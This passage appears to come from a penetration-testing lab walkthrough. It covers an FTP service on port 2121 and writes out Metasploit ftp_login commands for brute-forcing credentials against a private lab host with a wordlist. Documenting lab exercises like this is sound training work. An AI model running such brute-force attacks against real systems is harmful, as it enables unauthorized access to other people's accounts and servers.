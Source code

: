 ![](../images/service_on_port_2121.png)
It is also a similar ftp service running on the port 21 but with different vendor. It is also used to share file between the ftp server and ftp clients. 
### Identifying Vulnerabilites or Weakness
From my exploration about this service version we can't find a well known vulnerability in this particular service version. But we can perform the bruteforce attack on this service using tool like metasploit and hydra it is set to weak or default cruedentials, i.e we go for **Bruteforcing attak**
### Exploitation
**Bruteforcing using metasploit**
we had a metasploit module which can be used to bruteforce ftp login.
```
msfconsole -q
msf > search ftp_login
msf > use auxiliary/scanner/ftp/ftp_login
msf auxiliary(scanner/ftp/ftp_login) > show options
msf auxiliary(scanner/ftp/ftp_login) > set RHOSTS 192.168.1.103
msf auxiliary(scanner/ftp/ftp_login) > set USER_LIST /home/kali/bruteforce.txt
msf auxiliary(scanner/ftp/ftp_login) > set PASS_FiLE /home/kali/bruteforce.txt
msf auxiliary(scanner/ftp/ftp_login) > set verbose true
msf auxiliary(scanner/ftp/ftp_login) > run
```